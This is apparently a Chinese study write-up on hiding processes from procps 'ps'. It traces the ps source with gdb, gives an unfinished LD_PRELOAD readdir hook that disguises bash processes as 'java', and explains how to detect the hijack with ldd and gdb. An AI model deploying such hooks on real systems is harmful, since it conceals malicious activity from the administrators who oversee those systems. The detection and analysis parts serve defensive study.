



# procps进程隐藏

* 劫持readdir函数

## 环境搭建

### 源码下载

* 检查系统对应的procps源码版本

```shell
apt show procps
```

* 下载对应版本源码

> https://github.com/warmchang/procps/tree/v3.3.16

* 本次测试环境Ubuntu 20.04 + procps 3.3.16

### 环境配置

* 安装编译环境依赖

```shell
apt install gettext autopoint libtool libtool-bin libncurses-dev
```

* 编译

```
./autogen.sh
./configure --prefix=`pwd`/bin
make
make install
```

## 源码分析

* openproc初始化
* readproc进程数据读入
* show_one_proc输出数据

> 编译后的生成文件路径
>
> /home/re/Desktop/linux-src/procps/procps-3.3.16/bin
>
> 源码路径
>
> /home/re/Desktop/linux-src/procps/procps-3.3.16/

* 要分析的文件位于configure prefix目录中的`bin/ps`，手动编译的ps程序是带有调试符号，用 gdb跟踪调试一下，main函数位于源码目录中的`ps/display.c`

```shell
(gdb) set environment LD_PRELOAD ../lib/libprocps.so.8
(gdb) show environment
(gdb) r -aux
```

* 运行调试到672-673行，发现根据是否指定forest/sort参数执行`fancy_spew`或`simple_spew`函数，`simple_spew`函数对应的源码位于`ps/display.c:340`

```C
    672   if(forest_type || sort_list) fancy_spew(); /* sort or forest */
    673   else simple_spew(); /* no sort, no forest */
    674   show_one_proc((proc_t *)-1,format_list); /* no output yet? */

```

```c
    340 /***** just display */
    341 static void simple_spew(void){
    342   static proc_t buf, buf2;       // static avoids memset
    343   PROCTAB* ptp;
    344   pid_t* pidlist;
    345   int flags;
    346   int i;
    347 
    348   pidlist = NULL;
    349   flags = needs_for_format | needs_for_sort | needs_for_select | needs_for_threads;

....
    365 
    366   ptp = openproc(flags, pidlist);
    367   if(!ptp) {
    368     fprintf(stderr, _("error: can not access /proc\n"));
    369     exit(1);
    370   }

```

* 这两个函数都会调用`openproc`，`openproc`函数都位于编译后的lib目录`lib/libprocps.so.8`。进入到`lib/libprocps.so.8`，这个函数对应的源码位于`proc/readproc.c:1440`。此函数主要用于对`PROCTAB`结构体绑定成员函数和一些初始化操作

```c
    198 typedef struct PROCTAB {
    199     DIR*        procfs;
    200 //    char deBug0[64];
    201     DIR*        taskdir;  // for threads
    202 //    char deBug1[64];
    203     pid_t       taskdir_user;  // for threads
    204     int         did_fake; // used when taskdir is missing
    205     int(*finder)(struct PROCTAB *__restrict const, proc_t *__restrict const);
    206     proc_t*(*reader)(struct PROCTAB *__restrict const, proc_t *__restrict const);
    207     int(*taskfinder)(struct PROCTAB *__restrict const, const proc_t *__restrict const, proc_t *__restrict const, char *__restrict const);
    208     proc_t*(*taskreader)(struct PROCTAB *__restrict const, const proc_t *__restrict const, proc_t *__restrict const, char *__restrict const);
    209     pid_t*      pids;   // pids of the procs
    210     uid_t*      uids;   // uids of procs
    211     int         nuid;   // cannot really sentinel-terminate unsigned short[]
    212     int         i;  // generic
    213     unsigned    flags;
    214     unsigned    u;  // generic
    215     void *      vp; // generic
    216     char        path[PROCPATHLEN];  // must hold /proc/2000222000/task/2000222000/cmdline
    217     unsigned pathlen;        // length of string in the above (w/o '\0')
    218 } PROCTAB;

```


```c
   1439 // initiate a process table scan
   1440 PROCTAB* openproc(int flags, ...) {
   1441     va_list ap;
   1442     struct stat sbuf;
   1443     static int did_stat;
   1444     PROCTAB* PT = xcalloc(sizeof(PROCTAB));
   1445 
   1446     if (!did_stat){
   1447         task_dir_missing = stat("/proc/self/task", &sbuf);
   1448         did_stat = 1;
   1449     }
   1450     PT->taskdir = NULL;
   1451     PT->taskdir_user = -1;
   1452     PT->taskfinder = simple_nexttid;
   1453     PT->taskreader = simple_readtask;
   1454 
   1455     PT->reader = simple_readproc;
   1456     if (flags & PROC_PID){
   1457         PT->procfs = NULL;
   1458         PT->finder = listed_nextpid;
   1459     }else{
   1460         PT->procfs = opendir("/proc");
   1461         if (!PT->procfs) { free(PT); return NULL; }
   1462         PT->finder = simple_nextpid;
   1463     }
   1464     PT->flags = flags;
   1465 
   1466     va_start(ap, flags);
   1467     if (flags & PROC_PID)
   1468         PT->pids = va_arg(ap, pid_t*);
   1469     else if (flags & PROC_UID){
   1470         PT->uids = va_arg(ap, uid_t*);
   1471         PT->nuid = va_arg(ap, int);
   1472     }
   1473     va_end(ap);
   1474 
   1475     if (!src_buffer){
   1476         src_buffer = xmalloc(MAX_BUFSZ);
   1477         dst_buffer = xmalloc(MAX_BUFSZ);
   1478     }
   1479     return PT;
   1480 }

```

* 初始化结束后回到`simple_spew`函数`ps/display.c:371`。根据参数中不同的选项执行不同的操作，在`aux`参数下只会进入第一个分支

```c
    370   }
    371   switch(thread_flags & (TF_show_proc|TF_loose_tasks|TF_show_task)){
    372   case TF_show_proc:                   // normal non-thread output
    373     while(readproc(ptp,&buf)){
    374       if(want_this_proc(&buf)){
    375         show_one_proc(&buf, proc_format_list);
    376       }
    377     }
    378     break;
    379   case TF_show_proc|TF_loose_tasks:    // H option
    ....
    388   case TF_show_proc|TF_show_task:      // m and -m options
    ....
    397   case TF_show_task:                   // -L and -T options
    ....

```

* `readproc`函数位于`proc/readproc.c:1296`，可以看到在1316行的`PT->reader`函数将进程数据进行读入，跟进`PT->reader`函数

```c
   1285 //////////////////////////////////////////////////////////////////////////////////
   1286 /* readproc: return a pointer to a proc_t filled with requested info about the
   1287  * next process available matching the restriction set.  If no more such
   1288  * processes are available, return a null pointer (boolean false).  Use the
   1289  * passed buffer instead of allocating space if it is non-NULL.  */
   1290 
   1291 /* This is optimized so that if a PID list is given, only those files are
   1292  * searched for in /proc.  If other lists are given in addition to the PID list,
   1293  * the same logic can follow through as for the no-PID list case.  This is
   1294  * fairly complex, but it does try to not to do any unnecessary work.
   1295  */
   1296 proc_t* readproc(PROCTAB *restrict const PT, proc_t *restrict p) {
   1297   proc_t *ret;
   1298   proc_t *saved_p;
   1299 
   1300   PT->did_fake=0;
   1301 //  if (PT->taskdir) {
   1302 //    closedir(PT->taskdir);
   1303 //    PT->taskdir = NULL;
   1304 //    PT->taskdir_user = -1;
   1305 //  }
   1306 
   1307   saved_p = p;
   1308   if(!p) p = xcalloc(sizeof *p);
   1309   else free_acquired(p, 1);
   1310 
   1311   for(;;){
   1312     // fills in the path, plus p->tid and p->tgid
   1313     if (unlikely(!PT->finder(PT,p))) goto out;
   1314 
   1315     // go read the process data
   1316     ret = PT->reader(PT,p);
   1317     if(ret) return ret;
   1318   }
   1319 
   1320 out:
   1321   if(!saved_p) free(p);
   1322   // FIXME: maybe set tid to -1 here, for "-" in display?
   1323   return NULL;
   1324 }

```

* backtrace

```c
pwndbg> backtrace 
#0  simple_nextpid (PT=0x5555555a6570, p=0x555555576580 <buf>) at proc/readproc.c:1235
#1  0x00007ffff7fa87e7 in readproc (PT=0x5555555a6570, p=0x555555576580 <buf>) at proc/readproc.c:1313
#2  0x000055555555f314 in simple_spew () at ps/display.c:373
#3  main (argc=argc@entry=2, argv=argv@entry=0x7fffffffdff8) at ps/display.c:673
#4  0x00007ffff7dc00b3 in __libc_start_main (main=0x55555555eb60 <main>, argc=2, argv=0x7fffffffdff8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdfe8) at ../csu/libc-start.c:308
#5  0x000055555555f5ce in _start ()

```


## 实战（暂未完成）

processhider.c(源码还需修改)

```c
#define _GNU_SOURCE

#include <sys/types.h>
#include <dirent.h>
#include <dlfcn.h>
#include <string.h>
#include <unistd.h>
#include <stdio.h>

struct dirent* readdir(DIR* dirp)
{
    //get original readdir pointer
    struct dirent* (*target_readdir)(DIR*);
    target_readdir = dlsym(RTLD_NEXT,"readdir");
    
    //get original dir
    struct dirent* dir;
    dir = target_readdir(dirp);

    if(!dir)
    {
        return 0;
    }

    char proc_path[0x1000];
    snprintf(proc_path,sizeof(dir->d_name)+0xA,"/proc/%s/exe",dir->d_name);

    char exec_path[0x1000];
    int ret = readlink(proc_path,exec_path,sizeof(exec_path));

    if(ret == -1)
    {
        return dir;
    }

    printf("%s\n",exec_path);

    if(strstr(exec_path,"bash"))
    {
        memset(exec_path,'\0',sizeof(exec_path));
        memcpy(dir->d_name,"java",sizeof(dir->d_name));
        printf("%s\n",dir->d_name);
        return dir;
    }
    else 
    {
        memset(exec_path,'\0',sizeof(exec_path));
        return dir;
    }

}
//一次完成，最后return 0？
```

编译

```
gcc processhider.c -o processhider.so -fPIC -shared -ldl -g
```


## 排查

### ldd + gdb

* 通过ldd命令查看so加载顺序



如果在`libprocps.so`前面发现有其他so文件被加载，说明存在了so劫持情况

* 如何证明`readdir`函数来自被劫持的so（可选）

1. 下载`debug`版本的`ps`，测试版本只使用`procps-3.3.16`，[下载地址](https://drive.google.com/file/d/1WAFfyq0HxhB4B90UfDXcUpMmS8q2rLDl/view?usp=sharing)
2. 使用`gdb`调试，首先在`main`下断点，然后`r`运行，此时用`vmmap`观察内存布局，发现被劫持的so的代码部分位于`0x7ffff7fc3000`到`0x7ffff7fc4000`地址处



3. 在`readdir`下断点，`c`继续运行，看其地址是否位于`0x7ffff7fc3000`到`0x7ffff7fc4000`之间



* 注：该场景不能使用`ltrace`工具，原因如下

> 1.  `ltrace`只在`lazybind`编译模式下生效，默认为`now`，如果需要修改编译参数可以在`Makefile`中的`CFLAGS`变量处添加`-z lazy`
> 2. 调用`readdir`函数的行为发生在`libprocps.so`中，并不在主程序，`ltrace`不具备递归跟踪的功能

